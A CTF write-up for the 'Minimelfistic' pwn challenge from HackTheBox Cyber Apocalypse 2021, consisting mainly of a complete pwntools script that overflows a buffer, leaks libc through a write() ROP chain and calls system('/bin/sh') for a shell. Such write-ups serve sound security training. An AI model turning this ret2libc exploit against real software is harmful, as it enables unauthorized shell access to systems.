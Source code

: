 ```yaml
---
name: Minimelfistic (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Minimelfistic (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Minimelfistic

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/JJD45W-C9mQ/0.jpg)](https://youtu.be/JJD45W-C9mQ?t=2169s "HTB Cyber Apocalypse CTF 2021: Minimelfistic")

## Challenge Description

> The Elves finally understood what went wrong with all their plans. They were too fancy and obvious! But, this one is different.. It's a security system, but the alarm rings whenever Santa's house is vulnerable to an attack. Will you manage to deactivate it? p.s. Sound on!

## Solution

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './minimelfistic'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Local
libc = ELF('libc.so.6')  # Remote

# Pass in pattern_size, get back EIP/RIP offset
offset = 72

ret = 0x400616  # Stack alignment

# Start program
io = start()

# Create a ROP object to handle complexities
rop = ROP(elf)

# Payload to leak libc function
# No puts() so use write()
rop.banner()
rop.write(1, elf.got.write)
rop.main()

# We need the '9' or we won't get out of infinite loop
payload = flat([
    b'9' + (asm('nop') * (71)),
    rop.chain()
])

# Send the payload
io.sendlineafter(b'>', payload)

io.recvlines(41)  # the banner

# Retrieve got.write address
got_write = unpack(io.recvline()[:6].ljust(8, b"\x00"))
info("leaked got_write: %#x", got_write)

# Subtract write offset to get libc base
libc.address = got_write - libc.symbols.write
info("libc_base: %#x", libc.address)

# Reset ROP object with libc binary
rop = ROP(libc)

# Call ROP system, passing location of "/bin/sh" string
rop.system(next(libc.search(b'/bin/sh\x00')))

# We need the '9' or we won't get out of infinite loop
payload = flat([
    b'9' + (asm('nop') * (offset - 1)),
    ret,
    rop.chain()
])

# Send the payload
io.sendlineafter(b'>', payload)

# Got Shell?
io.interactive()
```
